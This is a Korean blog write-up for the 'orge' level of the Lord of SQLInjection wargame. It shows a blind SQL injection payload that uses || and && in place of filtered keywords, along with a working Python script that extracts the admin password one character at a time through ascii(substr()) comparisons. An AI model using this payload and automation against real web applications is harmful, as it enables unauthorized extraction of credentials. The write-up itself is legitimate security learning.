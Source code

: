 ```yaml
---
layout: single
title: "[Lord of SQLInjection] orge write-up"
date: 2025-04-23 01:21 +0900
categories: 
    - WEB-write-up
tag:
typora-root-url: ../
toc: true
toc_sticky: true
toc_label: 목차
author_profile: true
comment: true
sidebar:
    nav: "docs"
---
```


## Lord of SQLInjection (orge)

### ✏️ 풀이

해당 문제에선 darkelf 문제와 동일하게 진행하고, `addslashes` 함수를 이용해 pw 값에 대해서 필터링을 진행하고 pw 값이 admin의 pw 값이면 solve이다. 이 문제는 darkelf에서 Blind SQLi 만 추가해서 답을 알 수 있다.

![image-20250423012326653](/images/2025-04-23-los-orge/image-20250423012326653.png)

<br>

darkelf 문제에선 `1' || id='admin' %26%26 1=1 -- -` 로 or and 연산자를 `||` `&&` 문자를 이용해 풀었었다. 이제 1=1 부분을 `ascii(substr(pw,1,1))=65 ` 처럼 바꿔서 파이썬 코드를 짜면 된다.

![image-20250423012704562](/images/2025-04-23-los-orge/image-20250423012704562.png)

<br>

파이썬 코드를 짤 때 주의할 점은 &&를 인코딩한 게 아닌 && 그대로 넣어서 blind sqli 자동화 코드를 짜면 된다.

```python
import requests
from bs4 import BeautifulSoup

url = "https://los.rubiya.kr/chall/orge_bad2f25db233a7542be75844e314e9f3.php"
cookie = {"PHPSESSID": "3gkm2054bi501f689hd20e39cp"}
pw = ""

for i in range(1, 50):
    found = False
    for j in range(32, 128):
        param = {"pw": f"1' || id='admin' && ascii(substr(pw,{i},1))={j} -- -"}
        r = requests.get(url=url, cookies=cookie, params=param)
        html = r.text
        soup = BeautifulSoup(html, "html.parser")
        if "Hello admin" in soup.text:
            print(f"[+] Found! {i}번째 자리는 {chr(j)}입니다.")
            found = True
            pw += chr(j)
            print(f"현재까지 나온 pw: {pw}")
            break
    if not found:
        print(f"[-] 종료: {i}번째 자리를 찾지 못했습니다.")
        break

```

<img src="/images/2025-04-23-los-orge/image-20250423015212981.png" alt="image-20250423015212981" style="zoom:50%;" />

![image-20250423015243795](/images/2025-04-23-los-orge/image-20250423015243795.png)
